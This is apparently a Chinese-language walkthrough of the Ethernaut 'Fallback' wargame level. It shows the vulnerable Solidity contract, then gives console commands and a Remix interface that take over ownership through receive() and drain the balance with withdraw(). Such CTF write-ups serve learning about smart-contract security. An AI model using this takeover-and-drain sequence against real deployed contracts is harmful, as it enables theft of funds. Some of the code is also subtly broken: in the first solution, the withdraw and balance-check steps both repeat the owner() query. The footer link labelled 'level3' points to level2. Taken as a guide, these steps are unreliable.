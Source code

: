 # level1 Fallback

## 1. 问题

将以下合约的 `owner` 修改为自己的地址，并将合约的余额清空。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## 2. 解法

注意到 Fallback 合约有一个 `receive()` 函数可以修改 `owner`，只要在该函数被调用前，`msg.sender` 地址的 `contributions[msg.sender]` 大于 0 即可。因此，我们通过以下流程解决：


一. 先用EOA账户调用`contribute()`注资，使得EOA的contributions大于0

二. 使用EOA调用合约的`receive()`函数，获取owner权限

三. 再成为owner后，用EOA调用`withdraw()`接口取回合约里的所有eth


### 2.1 解法1：ethernaut命令行
1. 使用EOA账户调用`contribute()`注资0.0009 eth
```bash
# 使用ethernaut的命令行执行
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')});
```

> [!NOTE]
> 执行后会唤起metamask对交易进行签名，发起[Holesky交易](https://holesky.etherscan.io/tx/0x254f1b4b40bf2640e8f3365e9abe21dfc49b4d18f6bdca88c700a5f63e64d532)


2. 使用EOA账户调用`receive()`随便注资一点，以获取owner权限
```bash
await contract.sendTransaction({from: player, value: toWei('0.000001')});
```

> [!NOTE]
> 执行后会唤起metamask对交易进行签名，发起[Holesky交易](https://holesky.etherscan.io/tx/0xf1a8172b4025f6f614e42cc58e29d5faa9a94142f5b0846bc1b04394f338bd2a)
  
3. 查询当前 `owner`，确认已经变成我们自己：

```bash
await contract.owner()
```

4. 调用 `withdraw()` 接口取回合约里的所有 ETH：
```bash
await contract.owner()
```

5. 查询合约的余额，确认余额为 0：
```bash
await contract.owner()
```
> [!TIP]
> 也可以打开区块链浏览器直接看合约的余额

6. 点击 `submit instance`， 提交通过！


### 2.2 解法2：使用remix和合约交互
1. 因为我们不需要部署fallback合约，所以我们将fallback的逻辑切换成interface，然后在remix上编译:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 将原始合约定义成 interface，方便自己写的合约调用
interface Fallback {
    // 原始合约中的public变量, 作为interface引入时，有一个对应方法可以调用
    // mapping(address => uint256) public contributions;
    function contributions(address user) external view returns(uint256);
    
    // 原始合约中的public变量, 作为interface引入时，有一个对应方法可以调用
    // address public owner;
    function owner() external view returns (address);

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function contribute() external payable;

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function getContribution() external view returns (uint256);

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function withdraw() external;
}
```

2. 编译完成后，在部署页选择 `At Address`，填入 Ethernaut 后台提供的合约地址。完成后，`Deployed Contracts` 中会多出一个实例，其中包含我们定义的接口。

![](../../resources/img/level1/image.png)

3. 在`VALUE`中填入 `900Gwei`,然后点击 `contribute`函数，唤起metamask[提交交易](https://sepolia.etherscan.io/tx/0x7adfa062698091a12866560e46c95a3ff0d5323882e6f4521d995e3684c8272e)

4. 如果想要给合约转入eth触发合约的`fallback()`执行，正常来说应该通过代码`address(XXX).call{value: 0.0009 ether}("");`，但是interface里面没有这个接口，所以我们使用`low level interactions`, 输入1wei，点击transact, 唤起metamask[提交交易](https://sepolia.etherscan.io/tx/0xbe66ef804998d02c760774628b4cc1d5ac27ba1e160a779dba6b1a400e215e9a)

![](../../resources/img/level1/transact.png)
   a. 此处无需填写任何参数，相当于调用 selector 为 `0x00000000` 的函数。由于 Fallback 合约中函数的 selector 基本不可能为 `0x00000000`，因此会默认调用合约的 `receive()` 函数，从而触发 `owner` 的切换。

   
5. 点击`owner()`函数，发现确实已经切换了

![](../../resources/img/level1/owner.png)

6. 点击`withdraw`[提交交易](https://sepolia.etherscan.io/tx/0xb6a86b89e5334eaa067202a63016ab9063bceb83d524490b8c4ceba231dd4878)取走所有的余额

7. 点击 `submit instance`， 提交通过！


<br/>
<br/>
| [⬅️ level0 Hello Ethernaut](../level0_HW/README.md) | [level3 Fallout ➡️](../level2_fallout/README.md) |
| :---------------------------------------------- | -------------------------------------: |